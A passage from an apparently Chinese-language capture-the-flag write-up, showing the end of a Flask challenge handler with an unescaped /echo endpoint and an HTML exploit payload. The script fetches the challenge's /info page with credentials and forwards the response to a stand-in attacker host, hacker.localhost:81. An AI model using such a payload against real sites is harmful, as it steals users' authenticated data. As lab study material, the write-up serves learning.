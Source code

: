 ```python
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```


利用html代码
```html
<script>
    fetch('http://challenge.localhost/info', {
        method: 'GET',
        credentials: 'include'
    })
    .then(response => {
        if (!response.ok) {
            throw new Error('Network response was not ok');
        }
        return response.text();
    })
    .then(data => {
        console.log('Info response:', data);
        return fetch('http://hacker.localhost:81', {
            method: 'GET',
            credentials: 'include',
            headers: {
                "Authorization": data
            },
        });
    })
    .then(response => {
        if (!response.ok) {
            throw new Error('Network response was not ok');
        }
        return response.json();
    })
    .then(data => {
        console.log('Post response:', data);
    })
    .catch(error => {
        console.error('Error:', error);
    });
</script>
```


## level15
